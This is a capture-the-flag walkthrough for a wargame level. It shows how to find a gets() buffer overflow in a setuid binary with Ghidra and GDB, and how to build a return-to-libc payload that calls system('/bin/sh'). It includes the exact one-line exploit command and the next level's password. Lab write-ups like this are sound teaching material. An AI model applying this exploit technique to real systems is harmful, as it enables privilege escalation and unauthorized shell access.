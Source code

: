 # Level 2 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level2@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level3 users 5138 Mar  6  2016 level2
	```

3. **Test the binary**

	```bash
	./level2
	```

	It waits for input, echoes the input, and exits..


4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level2@<vm-ip>:/home/user/level2/level2 .
	```

5. **Disassemble and inspect with Ghidra**
	The vulnerable function:

	```c
	void p() {
		char buffer[76];
		gets(buffer);			// vulnerable
		...
		strdup(buffer);			// return value used later
	}
	```

6. **Inspect in GDB step-by-step**

	Launch and break at `main`:

	```bash
	gdb level2
	(gdb) b main
	(gdb) run
	```

	Break inside vulnerable function `p()`:

	```gdb
	(gdb) b p
	(gdb) c
	```

	Set a breakpoint just after `strdup()`:

	```gdb
	(gdb) disas
	(gdb) b *0x0804853d
	(gdb) c
	```

	Input `/bin/sh` when prompted:

	```
	/bin/sh
	```

	Confirm `strdup()` returned `/bin/sh` string:

	```gdb
	(gdb) x/s $eax
	0x804a008:	 "/bin/sh"
	```

	This confirms the memory address to pass to `system()`.

	Also found:

	* `system()` address: `0xb7e6b060`
	* `exit()` address:	`0xb7e5ebe0`
	* Address after `strdup()`: `0x0804a008` (returns `/bin/sh`)

7. **Construct the payload**

	Total buffer size:

	* 76 bytes (buffer)
	* +4 bytes (saved EBP)
	* Total = 80 bytes before return address.

	Final payload structure:

	| Component     | Bytes | Purpose                                     |
	| ------------- | ----- | ------------------------------------------- |
	| `/bin/sh\x00` | 8     | String to be duplicated via `strdup()`      |
	| `"A" * 72`    | 72    | Fills buffer up to saved EBP                |
	| `0x0804853e`  | 4     | Return to instruction *after* `strdup()`    |
	| `0xb7e6b060`  | 4     | Address of `system()`                       |
	| `0xb7e5ebe0`  | 4     | Address of `exit()`                         |
	| `0x0804a008`  | 4     | Pointer to `/bin/sh` (return from `strdup`) |

8. **Execute the exploit**

	```bash
	(printf "/bin/sh\x00"; printf 'A%.0s' {1..72}; \
	printf '\x3e\x85\x04\x08\x60\xb0\xe6\xb7\xe0\xeb\xe5\xb7\x08\xa0\x04\x08'; cat) | ./level2
	```

9. **Read the password**

	```bash
	whoami
	cat /home/user/level3/.pass
	```

	Output:

	```
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```
